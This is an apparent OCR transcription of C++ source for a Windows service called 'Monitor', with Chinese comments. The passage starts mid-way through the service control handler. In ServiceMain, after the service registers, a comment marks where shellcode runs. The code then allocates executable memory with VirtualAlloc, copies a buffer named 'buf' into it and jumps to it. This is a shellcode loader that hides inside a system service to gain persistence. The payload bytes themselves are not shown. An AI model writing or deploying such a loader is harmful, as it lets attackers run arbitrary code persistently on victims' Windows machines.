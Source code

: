 ```c++
        
        ServiceStatus.dwWin32ExitCode = 0;
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    case SERVICE_CONTROL_SHUTDOWN:
        ServiceStatus.dwWin32ExitCode = 0;
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    default:
        break;
    }
    /* Report current status  */
    SetServiceStatus(hStatus, &ServiceStatus);
    return;
}

void ServiceMain(int argc, char** argv)
{
    WCHAR WserviceName[] = TEXT("Monitor");
    int error;
    ServiceStatus.dwServiceType =
        SERVICE_WIN32;
    ServiceStatus.dwCurrentState =
        SERVICE_START_PENDING;
    /*在本例中只接受系统关机和停止服务两种控制命令*/
    ServiceStatus.dwControlsAccepted =
        SERVICE_ACCEPT_SHUTDOWN |
        SERVICE_ACCEPT_STOP;
    ServiceStatus.dwWin32ExitCode = 0;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    ServiceStatus.dwCheckPoint = 0;
    ServiceStatus.dwWaitHint = 0;
    hStatus = ::RegisterServiceCtrlHandler(
        WserviceName,
        (LPHANDLER_FUNCTION)CtrlHandler);
    if (hStatus == (SERVICE_STATUS_HANDLE)0)
    {
        return;
    }
    /* Initialize Service   */
    error = InitService();
    if (error)
    {
        /* Initialization failed  */
        ServiceStatus.dwCurrentState = SERVICE_STOPPED;
        ServiceStatus.dwWin32ExitCode = -1;
        SetServiceStatus(hStatus, &ServiceStatus);
        return;
    }

    // 在这里执行Shellcode
    LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, buf, sizeof(buf));
    ((void(*)())Memory)();

    /*向SCM 报告运行状态*/
    ServiceStatus.dwCurrentState = SERVICE_RUNNING;
    SetServiceStatus(hStatus, &ServiceStatus);

    /*do something you want to do in this while loop*/
```